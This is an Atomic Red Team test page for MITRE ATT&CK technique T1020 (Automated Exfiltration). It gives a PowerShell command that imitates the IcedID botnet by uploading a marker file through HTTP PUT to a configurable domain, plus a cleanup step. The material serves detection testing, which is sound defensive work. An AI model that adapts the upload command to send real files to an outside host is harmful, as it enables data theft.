 # T1020 - Automated Exfiltration

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1020)

<blockquote>Adversaries may exfiltrate data, such as sensitive documents, through the use of automated processing after being gathered during Collection.

When automated exfiltration is used, other exfiltration techniques likely apply as well to transfer the information out of the network, such as [Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041) and [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).</blockquote>

## Atomic Tests

- [Atomic Test #1 - IcedID Botnet HTTP PUT](#atomic-test-1---icedid-botnet-http-put)

<br/>

## Atomic Test #1 - IcedID Botnet HTTP PUT

Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file

**Supported Platforms:** Windows

**auto_generated_guid:** 9c780d3d-3a14-4278-8ee5-faaeb2ccfbe0

#### Inputs:

| Name   | Description        | Type   | Default Value                       |
| ------ | ------------------ | ------ | ----------------------------------- |
| file   | Exfiltration File  | string | C:&#92;temp&#92;T1020_exfilFile.txt |
| domain | Destination Domain | url    | https://google.com                  |

#### Attack Commands: Run with `powershell`!

```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:

```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```

<br/>
